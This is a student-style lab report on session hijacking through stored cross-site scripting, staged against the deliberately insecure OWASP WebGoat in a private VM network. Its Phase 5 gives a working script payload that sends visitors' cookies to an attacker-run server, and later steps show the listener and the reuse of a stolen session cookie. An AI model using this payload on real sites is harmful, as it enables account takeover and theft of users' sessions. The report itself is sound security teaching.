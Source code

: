 # Session Hijack using XSS

The Docsify-This version is available [here](https://docsify-this.net/?basePath=https://raw.githubusercontent.com/stefano-chen/Report-Cybersecurity/main&homepage=home.md#/)

## Introduction
A **Session Hijack** attack exploits the web session control mechanism,tipically managed by a session cookie.
This **session cookie**, generated by the web server and sent to the client browser following successful authentication, is a variable-length string that identifies the session.

Session Hijacking involves compromising this session cookie, either by stealing or predicting a valid session cookie, to gain **unauthorized** access to the Web Server.
There are several common methods for compromising a session cookie, including:
* Predictable session cookie
* Session Sniffing (e.g. Man-in-the-middle, Man-in-the-browser)
* Client-side attacks (e.g. XSS, malicious JavaScript Codes, Trojans)

In this report, we will demonstrate how to perform **Session Hijack using Cross-Site Scripting (XSS)**.

## What is XSS?
Cross-Site Scripting (XSS) attacks are a type of injection where malicious scripts are injected into otherwise benign and trusted websites. These attacks exploit flaws in web applications that use user input in their output without proper validation or encoding.

An attacker can use XSS to send malicious scripts to unsuspecting users. The user's browser, having no way to determine that the script should not be trusted, executes it, allowing the attacker to access cookies or other sensitive information retained by the browser.

XSS attacks are generally categorized into two types: reflected and stored.

* Reflected XSS Attacks: These attacks involve scripts that are reflected off a web server, such as in an error message or search result, where the server includes part or all of the input sent to it in the response. Reflected attacks are delivered to victims via another route, such as in an e-mail message, or on some other website. When a user is tricked into clicking on a malicious link, submitting a specially crafted form, or even just browsing to a malicious site, the injected code travels to the vulnerable web site, which reflects the attack back to the user’s browser. The browser then executes the code because it came from a “trusted” server.

* Stored XSS Attacks: These attacks involve scripts that are permanently stored on the target server, such as in a database, message forum, visitor log, or comment field. The victim retrieves the malicious script from the server when requesting the stored information.

In this experiment, we will use a stored XSS attack to steal a session cookie.

## Experiment
To demonstrate the simplicity and danger of exploiting a website vulnerable to XSS, we will simulate a stored XSS attack on a vulnerable website to obtain the session cookie of an unsuspecting user.

#### Environment
To simulate the attack, we will use:

* [VMware Workstation Player](https://www.vmware.com/content/vmware/vmware-published-sites/us/products/workstation-player/workstation-player-evaluation.html.html.html): A platform for running virtual machine
* [OWASP WebGoat](https://github.com/WebGoat/WebGoat): A deliberately insecure web application designed to teach web application security lessons
* [Python3](https://www.python.org/about/gettingstarted/): To generate an attacker-controlled HTTP server


We will use three virtual machines:

1. [Kali Linux](https://www.kali.org/get-kali/#kali-platforms) as attacker machine with Python3 installed
2. [Ubuntu](https://ubuntu.com/download/desktop) as Web Server with OWASP WebGoat installed.
3. [Windows](https://www.microsoft.com/en-us/software-download/windows10) as victim machine


#### Network Setup
The virtual machines have the following IP addresses and are inside a [NAT](https://docs.vmware.com/en/VMware-Workstation-Player-for-Windows/17.0/com.vmware.player.win.using.doc/GUID-37EA4A9D-DE43-4159-8982-2DFD9D5959AD.html) network:

| O.S. | IP addresss | Subnet Mask|
| ------ | ----------- | ---- |
| Kali   | 192.168.28.133 | 255.255.255.0 |
| Ubuntu   | 192.168.28.132 | 255.255.255.0 |
| Windows   | 192.168.28.134 | 255.255.255.0 |

### Phase 1: Ping
To test the machine's connectivity we perform the following ping commands:

On Kali Linux:
```bash
$ ping -c4 192.168.28.132
```

On Windows:
```powershell
> ping 192.168.28.132
```

### Phase 2: Run WebGoat
To run WebGoat on Ubuntu, use the following command:
```bash
$ sudo docker run --name webgoat -it -p 192.168.28.132:8080:8080 webgoat/webgoat
```
This sets up Ubuntu as the web server, with OWASP WebGoat running on port 8080.

### Phase 3: Attacker Account
To access WebGoat from Kali, open a browser and type the following URL:
```url
http://192.168.28.132:8080/WebGoat/
```
![Attacker Login](images/attacker-login.png) 
Let's create an account using the register button:
![Attacker Register](images/attacker-register.png) 

### Phase 4: Identify XSS Vulnerability
Navigate to:
```
(A3) Injection > Cross Site Scripting (stored)
```
![xss page](images/xss-page.PNG)
This page simulates a forum where any registered user can write comments.

To verify if the page is vulnerable to XSS attacks, write the following comment in the input field.
```html
<strong> Hello World </strong>
```
![xss test](images/xss-test.PNG)
As we can see, the comment body recognized the htlm tags, indicating that the input is not sanitized. 
We can exploit this weakness by injecting some malicious script.

### Phase 5: Payload Injection
Write the following comment:
```javascript
<script>fetch("http://192.168.28.133:9000/?cookie=" + document.cookie)</script>
```
![xss payload](images/attacker-payload.PNG)
This payload is permanently stored in the website's database. Every time a user views this comment, their browser will send all stored cookies to the attacker's server via an HTTP request.

### Phase 6: Attacker Controlled Server
To open an HTTP server on Kali, use the following command:
```bash
python3 -m http.server --bind 192.168.28.133 9000
```
![attacker server](images/attacker-server.PNG)
Now the attacker only needs to wait for http requests

### Phase 7: Target Access Comment
An unsuspecting user (Windows VM) access WebGoat and reads the malicious comment:
![cookie](images/cookie.PNG)
The target's cookie is stolen without their knowledge.

### Phase 8: Use Session Cookie
With the obtained session cookie, the attacker can impersonate the target using the following command in the Firefox debugger console:
```javascript
document.cookie="JSESSIONID=VTEZoDF-sff80Wp4eXg4GVI_yb8-kn5yPlZQ-IvJ"
```
![impersonate](images/impersonate.PNG)

## Conclusion
The experiment illustrates the ease with which a stored XSS attack can be used to perform session hijacking, revealing significant vulnerabilities in web applications that fail to properly sanitize user inputs. By injecting a malicious script into a vulnerable web application, an attacker can steal session cookies from unsuspecting users, allowing the attacker to impersonate the victim and gain unauthorized access to sensitive information and functionalities within the web application.


## References (and Ispiration)
* Exploiting XSS-stealing cookies, https://pswalia2u.medium.com/exploiting-xss-stealing-cookies-csrf-2325ec03136e
* Cross Site Scripting, https://owasp.org/www-community/attacks/xss/
* Cross-Site Scripting Explained and Demostrated, https://youtu.be/PPzn4K2ZjfY?si=7MS2tBcXuaxEAoRR
* Session Hijacking Attack, https://owasp.org/www-community/attacks/Session_hijacking_attack